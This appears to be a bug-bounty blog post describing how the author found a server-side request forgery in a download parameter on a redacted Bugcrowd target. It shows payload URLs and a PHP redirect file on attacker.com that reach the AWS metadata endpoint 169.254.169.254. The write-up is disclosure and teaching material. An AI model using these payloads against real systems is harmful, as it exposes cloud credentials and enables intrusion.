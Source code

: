 ```yaml
---
layout: post
title: AWS Metadata Disclosure via "Hardcoded Host" Download Function
excerpt: "Sometimes, when visiting a website, we find a link to download files from that site. The downloaded file can be a guide, tutorial, or another document."
tags: [bug hunting, hacking, lfd, aws]
categories: [bug hunting]
comments: true
image:
  feature: 81591f7af4d3ec85cfb7c1d7856d9ec7-f.png
---
```


Sometimes, when visiting a website, we find a link to download files from that site. The downloaded file can be a guide, tutorial, or another document.

When hunting private programs on Bugcrowd, I found a link to download PDF files with the following format:

```
https://redacted.com/download?file=/2019/08/file.pdf
```

When accessing the link, then the browser will download the file `file.pdf`. The first I think when finding such a URL, of course, I wonder if there is a **Local File Download** bug on the link.

So to do the test, I tried to change the URL be like this:

```
https://redacted.com/download?file=index.php
```

But nothing happened :(

There are several possibilities that I can think when I found the index.php file could not be downloaded. First, the download feature has been protected so that we cannot download files that are not permitted, or second, the download feature is directed to another host, maybe as a CDN or something so that the index.php file does not exist.

For the second possibility, maybe this is the code used:

```php
$host = 'https://cdn.redacted.com';
$file = $_GET['file'];

$download_url = $host .'/'. $file;
```

In the code above, it appears that the `host` of the file to be downloaded has been hardcoded in the code so that we can manipulate only the `file` parameter.

#### URL Redirection

To find out if our assumptions about the URL format are correct, the easiest way is to try to redirect to another domain by adding the @ symbol at the end of the `file` parameter value and followed by the domain.

Example:

```
https://redacted.com/download?file=/2019/08/file.pdf@www.google.com
```

And boom! The HTML code from _www.google.com_ was downloaded.

![www.google.com Source Code](/assets/81591f7af4d3ec85cfb7c1d7856d9ec7-1.png)

This means that through this vulnerability, we can only download data that is outside the server, cannot access files that are on the target. Then what data can we possibly get?

#### AWS Metadata

Knowing that the server is on Amazon AWS, so I tried to extract AWS Metadata through the vulnerability.

AWS Metadata Exists at URL:

```
http://169.254.169.254/latest/meta-data/
```

Then the URL is modified like this:

```
https://redacted.com/download?file=/2019/08/file.pdf@169.254.169.254/latest/meta-data/
```

But nothing happened again :(

After some time, I realized that the possibility of a hardcode host using the `HTTPS` protocol, so when we try to redirect to the Metadata URL that is using the `HTTP` protocol, the redirect process doesn't work.

For that, I use a little trick by using a domain that uses `HTTPS` and then redirect again to the URL of the Metadata.

```
Server Target ---> HTTPS domain ---> URL Metadata
```

For that, I created a simple `PHP` file to redirect to Metadata:

```php
<?php

header('location: http://169.254.169.254/latest/meta-data/');
```

Then the file is uploaded to a domain that uses HTTPS. Then the final URL will be like this:

```
https://redacted.com/download?file=/2019/08/file.pdf@attacker.com/redirect.php
```

And the Metadata was downloaded!

![AWS Metadata](/assets/81591f7af4d3ec85cfb7c1d7856d9ec7-2.png)

For this finding, I got `P1` on Bugcrowd.

**References:**

- CWE-200 : Information Exposure
- https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html
